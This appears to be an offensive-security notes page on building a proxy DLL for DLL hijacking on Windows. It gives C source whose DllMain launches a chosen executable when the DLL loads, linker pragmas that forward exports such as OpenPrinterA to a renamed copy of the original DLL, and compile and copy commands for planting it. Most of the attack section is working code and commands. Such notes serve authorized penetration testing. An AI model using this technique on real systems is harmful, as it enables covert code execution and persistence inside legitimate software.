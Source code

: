 #### Create proxy DLL
- Possible to make your own C code and injector in the Go function.
```
#include <Windows.h>

void Go(void) {
    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

        CreateProcess(
					"<PATH TO EXE>", 
					"", NULL, NULL, TRUE, 0, NULL, NULL, 
					&info, &processInfo);
	
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		Go();
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

- Add original function linkers, example. Add the ordinal number of the function from dumpbin. (Convert hex to decimal)
- Where `winsplhlp` is a copy of the original DLL
```
#pragma comment(linker,"/export:OpenPrinterA=winsplhlp.OpenPrinterA,@143")
```

- Compile
	- Make sure compile it to the correct architecture
```
cl.exe /W0 /D_USRDLL /D_WINDLL <FILE NAME>.cpp /MT /link /DLL /OUT:<OUT DLL NAME>
```

- Print exports of DLL
```
dumpbin /exports <OUT DLL NAME>
```

- Copy original DLL to DLL used in linker
```
cp <ORIGINAL DLL>.dll <PATH TO PROGRAM>\<DLL NAME SET IN LINKER>.dll
```
